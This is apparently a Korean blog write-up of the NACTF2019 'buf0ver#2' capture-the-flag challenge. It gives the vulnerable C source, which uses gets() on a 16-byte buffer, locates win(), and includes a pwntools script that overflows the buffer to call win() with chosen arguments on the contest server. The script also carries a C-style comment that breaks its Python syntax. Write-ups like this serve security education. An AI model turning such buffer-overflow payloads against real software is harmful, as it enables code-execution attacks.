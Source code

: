 ```yaml
---
layout: post
title: "NACTF2019 buf0ver#2"
tags: [nactf2019, buffer overflow, pwntools]
---
```


```
#include <stdio.h>
#include <stdlib.h>

void win(long long arg1, int arg2)
{
	if (arg1 != 0x14B4DA55 || arg2 != 0xF00DB4BE)
	{
		puts("Close, but not quite.");
		exit(1);
	}

	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}

```
vuln()을 버퍼오버플로우하면서 win()의 인자로 조건을 맞춰서 넘겨줘야한다.  
덤프를 보고 win()의 주소를 찾는다.  
`080491c2 <win>:`

![_config.yml]({{ site.baseurl }}/images/nactf2019/bufover2stack.png)

```
#!/usr/bin/python
from pwn import *

p = remote("shell.2019.nactf.com", 31184)

win_addr = 0x80491c2
arg1 = 0x14b4da55
arg2 = 0xf00db4be

payload = "A"*28
payload += p32(win_addr)
payload += p32(win_addr+8)
payload += p64(arg1) //8바이트를 채워야하기때문에 64비트로 패킹
payload += p32(arg2)

print("[*] sending payload..")
p.sendline(payload)
print("[*] done.")

flag = p.recvall()
print("[*] output: " + flag)
p.clean()
p.close()
```
![_config.yml]({{ site.baseurl }}/images/nactf2019/bufover2.png)